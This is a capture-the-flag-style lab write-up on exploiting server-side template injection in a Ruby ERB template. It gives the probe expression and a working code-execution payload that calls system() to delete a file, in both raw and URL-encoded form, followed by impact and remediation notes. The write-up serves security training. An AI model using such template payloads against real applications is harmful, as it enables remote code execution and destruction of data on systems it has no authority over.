


# Basic Server-Side Template Injection (SSTI)

## Lab Information

**Lab:** Basic Server-Side Template Injection
**Category:** Server-Side Template Injection (SSTI)
**Difficulty:** Practitioner
**Status:** Solved

## Objective

The application is vulnerable to Server-Side Template Injection due to the unsafe construction of an ERB template.

The objective is to exploit the SSTI vulnerability and execute a system command that deletes the file:

```text
/home/carlos/morale.txt
```

---

## Vulnerability Overview

The application renders user-controlled input directly within an ERB template.

Because user input is evaluated by the template engine, arbitrary Ruby expressions can be executed on the server.

This enables remote code execution through malicious template expressions.

---

## Exploitation Steps

### 1. Identify the Injection Point

While viewing product details, the application uses the `message` parameter to render content on the page.

Example:

```text
/?message=Unfortunately this product is out of stock
```

---

### 2. Confirm SSTI

A mathematical expression was injected into the template:

```erb
<%= 7*7 %>
```

URL Encoded:

```text
%3C%25%3D+7*7+%25%3E
```

The page rendered:

```text
49
```

confirming that the ERB template engine was evaluating user-supplied input.

---

### 3. Achieve Code Execution

The Ruby `system()` function was used to execute an operating system command.

Payload:

```erb
<%= system("rm /home/carlos/morale.txt") %>
```

URL Encoded:

```text
%3C%25%3D+system(%22rm+/home/carlos/morale.txt%22)+%25%3E
```

The payload was supplied through the vulnerable `message` parameter.

---

## Payload Used

```erb
<%= system("rm /home/carlos/morale.txt") %>
```

---

## Result

The application executed the supplied operating system command and deleted the target file:

```text
/home/carlos/morale.txt
```

The lab was successfully solved.

---

## Screenshots

### SSTI Confirmation (7 × 7 = 49)



### Lab Solved



---

## Security Impact

Server-Side Template Injection can allow attackers to:

* Execute arbitrary server-side code
* Access sensitive files
* Read environment variables
* Execute operating system commands
* Gain full remote code execution
* Completely compromise the application server

---

## Remediation

* Never render user input directly inside templates.
* Use safe template rendering methods.
* Disable dangerous template features when possible.
* Apply strict input validation.
* Use sandboxed template environments.
* Implement least-privilege permissions for application processes.

---

## Key Takeaway

Server-Side Template Injection is often a direct path to Remote Code Execution. Any user-controlled data rendered by a template engine should be treated as potentially dangerous and never evaluated without proper sanitization.
